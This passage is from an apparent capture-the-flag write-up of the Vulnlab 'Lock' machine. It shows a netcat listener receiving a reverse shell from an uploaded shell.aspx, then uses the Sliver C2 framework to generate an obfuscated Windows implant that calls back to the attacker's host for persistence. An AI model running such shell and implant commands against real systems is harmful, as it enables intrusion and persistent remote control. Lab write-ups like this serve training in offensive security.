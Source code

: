 - [http://10.10.87.100/shell.aspx](http://10.10.87.100/shell.aspx)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.87.100] 50311
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

## Persistence

I performed my basic `Tactics, Techniques and Procedures (TTPs)` when gaining foothold to make sure I don't kill my shell by accident.

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...
[*] Loaded 20 aliases from disk
[*] Loaded 104 extension(s) from disk

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
                  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain living weapon
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate --http 10.8.0.2:8888 --os windows --arch amd64 --disable-sgn --format exe --save /media/sf_infosec/InfoSec/Vulnlab/Machines/Lock/serve/sliver.exe

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 30s
[*] Implant saved to /media/sf_infosec/InfoSec/Vulnlab/Machines/Lock/serve/sliver.exe
```
